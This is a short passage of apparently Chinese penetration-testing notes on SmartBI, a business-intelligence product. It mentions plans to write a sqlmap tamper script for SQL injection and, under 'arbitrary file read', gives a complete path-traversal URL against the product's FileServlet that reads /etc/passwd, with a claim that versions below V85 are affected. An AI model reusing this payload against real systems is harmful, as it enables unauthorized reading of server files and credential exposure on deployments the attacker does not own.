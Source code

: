  ![](smartBi总结.assets/20210425174820.png)

在想怎么结合 sqlmap 写 tamper 指定位置实现注入，需要修改 tamper

大佬们求带~~

## 任意文件读取

V85 以下的可能任意文件下载都有。V95 版本不存在。

https://127.0.0.1/vision/FileServlet?ftpType=out&path=upload/../../../../../../../../../../etc/passwd&name=%E4%B8%AD%E5%9B%BD%E7%9F%B3%E6%B2%B9%E5%90%89%E6%9E%97%E7%99%BD%E5%9F%8E%E9%94%80%E5%94%AE%E5%88%86%E5%85%AC%E5%8F%B8XX%E5%8A%A0%E6%B2%B9%E7%AB%99%E9%98%B2%E9%9B%B7%E5%AE%89%E5%85%A8%E5%BA%94%E6%80%A5%E9%A2%84%E6%A1%88.docx

![](smartBi总结.assets/image-20210112145403202-20210425175406153.png)
